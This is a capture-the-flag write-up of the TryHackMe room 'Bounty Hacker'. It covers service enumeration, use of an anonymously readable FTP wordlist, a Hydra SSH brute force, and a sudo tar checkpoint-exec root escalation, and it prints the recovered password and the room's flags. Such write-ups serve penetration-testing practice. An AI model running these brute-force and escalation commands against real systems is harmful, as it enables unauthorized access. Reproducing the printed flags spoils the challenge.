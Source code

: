 # Lab Report - Bounty Hacker


# Overview 
- **Date**: 04/10/2025
- **Category**: Web, FTP
- **Difficulty**: Easy 
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/cowboyhacker
- **Tags**: #enumeration #Brute-force #services #privesc 

## Challenge Description 
---
>**- An easy boot-to-root machine. 

## Resolution Summary 
---
>**We enumerated services using `Nmap`. Next we found an FTP server with Anonymous login enable, which contained information that allowed us to perform a brute-force attack on the SSH server. Finally, we escalated our privileges through misconfigured sudo permissions, involving the`tar` binary.

# Information Gathering 
---
## Active Reconnaissance 
---
- **As we were given an IP address, we  started by performing an `Nmap` port scan, we  scanned for services' version in order to uncover potential version-related vulnerabilities. 
```bash
sudo nmap -sV 10.10.181.45
```
- Note: adding the `-p-` flag did not reveal additional information. 

- **We got the following results from the `Nmap` scan:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Here we discovered several attack vectors to investigate, we started by the web application.** 
### HTTP (80)
---
- **For starters, we  ran `GoBuster` in order to discover hidden directories. We used SecList's medium list for this task:
```bash
gobuster dir -u 10.10.181.45 -w 
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

- **While the previous command was running, we took a look at the web, and particularly the source code since there was not much to it. However, we did not find anything relevant. 

- **We got the following results from `GoBuster`:
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.181.45/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.181.45/javascript/]
/server-status        (Status: 403) [Size: 277]
```

- **Just in case, we uploaded the only image available and checked its metadata for hidden information using `exiftool`: 
```bash
exiftool crew.png
```
- Note: it did not lead to any relevant track. 

- **Since there was not anything left to the web application, we proceeded to save the  usernames we encountered since we will be targeting the FTP and SSH server next:** 
```bash
Spike (the one supposed to hack the system), Jet, Ed, Faye, Edward, Ein.
```

### FTP (21)
---
- **Next,  we headed straight to the FTP server. We connected to it using the `ftp` command: 
```bash
ftp 10.10.181.45
```

- **One of the first reflexes we should have here is to attempt Anonymous login, which succeeded in this case. 
- **Another reflex would be to use `help` to list the available commands:
```bash
ftp> help
```

- **Upon further investigation, we encounter two .txt files, `locks.txt` and `task.txt`
- **The `locks.txt` file was formatted similar to a wordlist (containing passwords here), hence it may become handy when trying to brute-force  SSH credentials. 
- **The `task.txt` file revealed the following message, which provided us with more usernames to test when brute-forcing the SSH server: 
```bash
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
# Exploitation 
---
- **Now that we were done with the enumeration step, we attempted to brute-force the SSH server with the wordlist we recovered (`locks.txt`). For this task we used  `Hydra`. 
- **First, we made a a user list with all the usernames we found up until now. Subsequently, we proceeded by using `Hydra`: 
```bash
hydra -L userlist.txt -P wordlist.txt ssh://10.10.181.45 
```

- **We found a valid pair of credentials : 
```bash
[DATA] attacking ssh://10.10.181.45:22/
[22][ssh] host: 10.10.181.45   login: lin   password: RedDr4gonSynd1cat3
```

- **Which allowed us to gain access to the SSH server (22) by using: 
```bash
ssh lin@10.10.181.45
```

- **Upon logging in, we were greeted by the first flag: 
	- **user.txt -> `THM{CR1M3_SyNd1C4T3}`.

# Privilege Escalation 
---
- **Our goal here was to find a way to escalate our privileges and access the final flag.
- **For started, we tried to see which command we could possibly use with sudo:
```bash
sudo -l
```

- **And here was the result: 
```bash
User lin may run the following commands on ip-10-10-181-45:
    (root) /bin/tar
```

- **Once we found this clue, we directly went to check on [GTFOBins](https://gtfobins.github.io/) for privileges escalation vectors. 
- **We found the following payload to use: 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- **We confirmed that the attempt was successful by using: 
```bash 
whoami
root #Result
```

- **Finally, we were able to access the final flag:**
```bash
find / -type f -name "root.txt" 
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
# Trophy 
---
**User.txt → `THM{CR1M3_SyNd1C4T3}`

**Root.txt → `THM{80UN7Y_h4cK3r}`**

# Remediation Summary
---
- **Anonymous login:** It should be disable to reinforce authentication on FTP servers.  
- **Storing passwords in cleartext:** Passwords can be safely stored using trusted password managers. 
- **Misconfigured sudo permissions:**  Sudo usage should be restricted to essential commands only. 
# Lessons Learned
---
- **Any piece of information can be useful:** Saving usernames to make a wordlist was proven to be useful, as it permitted to successfully brute-force the SSH login credentials. 
- **GTFOBins in privesc**: Checking GTFOBins allows you to transform your findings into practical exploits. 
